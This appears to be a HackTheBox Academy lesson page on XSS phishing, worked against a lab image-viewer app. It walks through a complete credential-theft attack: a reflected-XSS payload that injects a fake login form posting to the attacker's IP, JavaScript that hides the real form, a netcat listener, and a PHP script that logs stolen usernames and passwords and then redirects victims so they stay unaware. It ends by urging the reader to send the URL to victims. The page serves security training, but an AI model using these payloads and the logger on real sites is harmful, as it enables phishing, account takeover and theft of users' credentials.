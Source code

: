 # Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

***

## XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

Visiting [`http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg`](http://server_ip/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg) :

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon:

Visiting [`http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>`](http://server_ip/phishing/index.php?url=%3Cscript%3Ealert\(window.origin\)%3C/script%3E) :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

{% hint style="info" %}
**Tip:** To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.
{% endhint %}

***

## Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking \[`CTRL+SHIFT+C`] and then clicking on the element we need:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

***

## Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```shell-session
$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

```shell-session
al1abb@htb[/htb]$ mkdir /tmp/tmpserver
al1abb@htb[/htb]$ cd /tmp/tmpserver
al1abb@htb[/htb]$ vi index.php #at this step we wrote our index.php file
al1abb@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:

```shell-session
$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.
